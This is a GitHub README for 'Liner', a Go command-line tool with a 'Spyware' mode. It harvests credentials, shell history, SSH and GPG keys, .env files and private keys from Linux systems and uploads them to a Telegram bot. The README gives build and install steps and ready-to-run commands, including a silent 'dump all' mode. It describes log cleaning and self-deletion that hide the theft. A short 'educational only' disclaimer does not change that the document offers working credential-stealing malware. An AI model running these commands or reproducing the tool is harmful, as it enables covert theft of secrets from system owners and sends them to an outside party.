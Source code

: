 # Liner - Data Collection & Telegram Transfer Tool

**Liner** is a command-line tool for collecting sensitive data (credentials, session files, private tokens, etc.) from a Linux system and transferring them to a specified Telegram chat via a bot.  
It's written in Go and supports silent execution, self-deletion, and concurrent file upload.

> ⚠️ **Warning:** This tool is intended **only for educational and ethical purposes**. Any unauthorized or malicious use is strictly prohibited and may violate local laws.

## 🔧 Features

- Dump credentials, passwords, session files, or all sensitive data.
- Generate tree structure of file system and home directories.
- Compress and transfer collected data to Telegram chat via bot API.
- Support for silent mode (`--silent`) and binary self-deletion.
- Concurrent upload to improve speed.

---

## 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

## 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

## 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

## 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

## 🧠 How It Works

1. **OS Check:** Validates if Linux is being used.
2. **File Collection:** Gathers files per `--dump` mode.
3. **Tree Generation:** Uses `tree` to list directories.
4. **Compression:** Packs data into `liner_data.zip`.
   - Splits to 25MB parts if >48MB.
5. **Telegram Upload:** Sends intro message, structure files, then zipped data.
6. **Cleanup:** Deletes temp files, cleans logs, self-deletes binary.

---

## ⚙️ Troubleshooting

- Telegram upload fails with `429 Too Many Requests` or timeout?  
  Check your connection or reduce concurrency in `core/telegram.go`.

- No files sent?  
  Ensure correct `--dump` and permissions (`sudo` if needed).

- Recombine split files on receiving side:

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```

---

## 🤝 Contributing

Pull requests and issues are welcome. Let’s improve this project together.

## 📜 License

[MIT License](./LICENSE)

